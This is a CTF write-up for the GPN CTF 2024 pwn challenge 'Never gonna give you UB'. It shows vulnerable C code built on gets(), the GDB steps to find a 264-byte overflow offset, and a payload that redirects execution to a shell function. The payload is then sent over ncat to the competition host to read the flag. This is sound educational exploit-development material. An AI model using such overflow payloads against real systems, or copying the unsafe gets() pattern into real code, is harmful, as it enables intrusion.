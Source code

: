 ```yaml
---
ctf-event: GPN CTF 2024
date: 2024-06-01
ctf-team: luxeria
ctf-task: Never gonna give you UB
ctf-category: pwn
ctf-difficulty: 
---
```

# Never gonna give you UB

## Description

> Can you get this program to do what you want?

## Analysis

Code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void scratched_record() {
        printf("Oh no, your record seems scratched :(\n");
        printf("Here's a shell, maybe you can fix it:\n");
        execve("/bin/sh", NULL, NULL);
}

extern char *gets(char *s);

int main() {
        printf("Song rater v0.1\n-------------------\n\n");
        char buf[0xff];
        printf("Please enter your song:\n");
        gets(buf);
        printf("\"%s\" is an excellent choice!\n", buf);
        return 0;
}
```

The goal is to overwrite the buffer `buf`  and jump to the `scratched_record` function in order to start a shell and read the flag.

## Solution

Start binary in GDB (gdb-peda was used to simplify some stuff):
```text
$ gdb ./song_rater
gdb-peda$
```

Create a pattern:
```text
gdb-peda$ pattern_create 400                                                                                                                                   
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATA
AqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A
%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y'
```

Start the program with the generated pattern as input and let it crash:
```text
gdb-peda$ run < <(python -c 'print("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y")')
Starting program: /home/emanuel/gpn22ctf/never-gonna-give-you-ub/song_rater < <(python -c 'print("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Song rater v0.1
-------------------

Please enter your song:
"AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y" is an excellent choice!

Program received signal SIGSEGV, Segmentation fault.
```

The stack pointer `RSP` contains an address pointing to the following string: 
```text
RSP: 0x7fffffffdac8 ("HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y")
```

Therefore, it's possible to control the stack pointer value. The controllable offset starts at byte 264:
```text
gdb-peda$ pattern_offset "HA%dA%3A%IA%eA%4"
HA%dA%3A%IA%eA%4 found at offset: 264
```

The `scratched_record` function that starts a shell starts at `0x0000000000401196`:
```text
gdb-peda$ disass scratched_record 
quit
Dump of assembler code for function scratched_record:
   0x0000000000401196 <+0>:     endbr64
   0x000000000040119a <+4>:     push   rbp
[...]
```

Filling the buffer with 263 bytes of `A` and then the address of the `scratched_record` function in order to call it:
```text
gdb-peda$ run < <(python -c 'print("A" * 263 + "\x96\x11\x40\x00\x00\x00\x00\x00")')

Starting program: /home/emanuel/gpn22ctf/never-gonna-give-you-ub/song_rater < <(python -c 'print("A" * 263 + "\x96\x11\x40\x00\x00\x00\x00\x00")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Song rater v0.1
-------------------

Please enter your song:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@" is an excellent choice!
Oh no, your record seems scratched :(
Here's a shell, maybe you can fix it:
process 40380 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
```

The output shows that the shell was started.

Running the exploit against the target system to get a shell and read the flag:
```text
$ (python -c 'print("A" * 263 + "\x96\x11\x40\x00\x00\x00\x00\x00")'; cat ) | ncat --ssl only-time--gunna-1152.ctf.kitctf.de 443
Song rater v0.1
-------------------

Please enter your song:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@" is an excellent choice!
Oh no, your record seems scratched :(
Here's a shell, maybe you can fix it:
cat /flag
GPNCTF{G00d_n3w5!_1t_l00ks_l1ke_y0u_r3p41r3d_y0ur_disk...}
```
